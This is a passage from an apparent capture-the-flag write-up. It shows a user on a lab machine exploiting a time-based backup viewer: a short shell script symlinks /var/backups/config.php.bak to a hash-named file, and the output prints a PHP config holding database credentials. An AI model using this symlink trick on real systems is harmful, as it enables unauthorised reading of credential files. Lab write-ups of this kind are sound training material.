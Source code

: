 ```ruby

chiv@forwardslash:~$ ./check.sh 
276da219158a4ff59ba3cd9a3fa6fc33
----------------------------------------------------------------------
	Pain's Next-Gen Time Based Backup Viewer
	v0.1
	NOTE: not reading the right file yet, 
	only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 19:55:23
ERROR: 276da219158a4ff59ba3cd9a3fa6fc33 Does Not Exist or Is Not Accessible By Me, Exiting...

```

> nice! this is a md5 hash.

> look at the output when running the backup file >> Its saying it is a **time based Backup Viewer**, and we can use it to view any backup file if we run it in the same time.

> now there is backup file in /var/backups/config.php.bak

> for this point i made a seconed script to extract the content of the backup file while we running the backup viewer.

```ruby

i=$(backup | grep ERROR | awk '{print $2}');
ln -s /var/backups/config.php.bak ./$i;
backup;

```

> let's run it.

```ruby

chiv@forwardslash:~$ ./pain.sh 
----------------------------------------------------------------------
	Pain's Next-Gen Time Based Backup Viewer
	v0.1
	NOTE: not reading the right file yet, 
	only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 20:04:26
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704');
define('DB_NAME', 'site');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>

```
